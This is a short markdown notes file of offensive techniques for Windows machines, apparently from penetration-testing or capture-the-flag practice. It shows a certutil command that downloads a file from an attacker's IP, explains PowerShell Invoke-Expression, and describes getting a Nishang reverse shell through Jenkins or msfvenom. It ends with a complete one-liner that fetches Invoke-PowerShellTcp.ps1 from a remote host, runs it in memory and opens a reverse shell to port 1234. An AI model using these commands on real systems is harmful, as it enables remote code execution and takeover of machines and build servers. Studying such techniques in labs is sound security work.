 # Commands & Techniques useful in Windows boxes. 

1. **File Transfer**

We can utilize certutil for this

```
certutil -urlcache -f http://<IP Address>/<file name> saved_file

	-- where saved_file is the name of the file you want to save it as
```


2. **Powershell IEX**

IEX stands for Invoke-Expression and is a powerful way of evaluating or invoking any command via powershell. Something like
> **powershell -c iex("whoami")**  

This will essentially execute the whoami command via Powershell. Below are a couple of Good Resources to refresh on this at any time.
- [Microsoft Docs](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.1)
- [ss64](https://ss64.com/ps/invoke-expression.html)



3. **Reverse Shell through Nishang & IEX**

We can get a reverse shell through Nishang on a Windows system if we have the capacity to execute code on it somehow. 
This can be in scenarios such as
- We have access to some Jenkins server that has code execution on the target machine. Through Jenkins we can then execute the Powershell command laden with IEX to spawn a reverse shell

- We can spawn a Reverse Shell in limited scenarios even through MSFCONSOLE by using Nishang
	- Generate a payload on msfvenom using payload windows/exec and specifying what to execute through CMD=powershell with appropriate IEX
	- The advantage of this method is that the payload is extremely small - which helps in cases of Buffer Overflow that put a restriction on payload size


Nishang Script: Invoke-PowerShellTcp.ps1


***Jenkins Server Example***

```
Inside the Build that allows for Batch Execution of Windows Command you can give a command like

powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.12.172/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.12.172 -Port 1234
```


